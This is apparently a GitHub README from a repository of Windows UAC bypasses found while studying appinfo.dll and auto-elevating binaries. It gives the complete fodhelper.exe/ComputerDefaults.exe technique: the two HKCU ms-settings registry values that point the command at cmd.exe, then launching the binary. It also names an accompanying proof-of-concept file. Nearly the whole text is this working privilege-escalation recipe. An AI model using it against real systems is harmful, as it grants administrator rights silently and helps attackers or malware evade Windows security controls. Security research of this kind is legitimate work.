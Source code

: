 # uac_bypasses
UAC Bypasses discovered while studying UAC/appinfo.dll and AutoElevate binaries.

Probably all of the bypasses listed here are known.

OS: Windows 10 Pro Version	10.0.17763 Build 17763


## ComputerDefaults.exe / fodhelper.exe
PoC File: computerdefaults_fodhelper_poc.cpp

Key #1: HKCU\SOFTWARE\Classes\ms-settings\Shell\Open\Command\\(Default) -> "C:\Windows\System32\cmd.exe"

Key #2: HKCU\SOFTWARE\Classes\ms-settings\Shell\Open\Command\DelegateExecute -> ""

Execute C:\Windows\system32\\{ComputerDefaults.exe,fodhelper.exe}

